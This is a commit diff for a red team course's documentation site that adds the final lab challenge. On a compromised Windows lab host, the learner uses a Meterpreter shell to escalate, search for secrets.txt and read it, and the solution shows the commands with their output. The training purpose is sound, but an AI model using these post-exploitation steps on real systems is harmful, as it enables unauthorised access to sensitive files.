

Before and after one commit to hcoco1/Career-Simulation-3, an MkDocs documentation site: the page built from docs/challenge_8.md, in a window 1280 px wide and 1384 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
yml updated

````diff
--- a/docs/challenge_8.md
+++ b/docs/challenge_8.md
@@ -1,6 +1,44 @@
-# **Challenge 7: Finding Sensitive Files**
+# **Challenge 8: Finding Sensitive Files**
 !!! note ""
 ## **Procedure:**
+
+With access gained on the final target server, the last step is to grab the flag and claim victory.
+
+- Using your Meterpreter shell, search the target server for a file named secrets.txt .
+- Read the contents of the file, and include them in your report.
+
+    **Note**: If you have found the filepath but get errors trying to open the file, it is likely a syntax issue. Using Windows-style filepaths in a Linux command line can be difficult, since Windows uses backslashes instead of forward slashes in paths, which your command line will interpret as an escape sequence instead of a literal backslash.  There are two good workarounds for this:
+
+    - Put quotes around the filepath in your command, like "C:\Windows\system32\file.txt"
+    - Alternatively, you can use double slashes in place of the forward slashes: C:\\Windows\\system32\\file.txt
+
+## **Solution:**
+
+### Finding the file secrets.txt.
+
+```bash linenums="1" hl_lines="1 2"
+meterpreter > getsystem
+[-] Already running as SYSTEM
+meterpreter > search -f secrets.txt
+Found 1 result...
+=================
+
+Path                          Size (bytes)  Modified (UTC)
+----                          ------------  --------------
+c:\Windows\debug\secrets.txt  55            2022-11-05 22:01:13 +0000
+
+```
+### Reading the file secrets.txt.
+
+```bash linenums="1" hl_lines="1 3 9"
+meterpreter > cat c:\\Windows\\debug\\secrets.txt
+Congratulations! You have finished the red team course!meterpreter >
+```
+
+![alt text](images/Pasted%20image%2020240508010646.png)
+
+## Congratulations! You have finished the red team course!
+
 !!! note ""
 
 <div class="button-container" markdown="1">
````
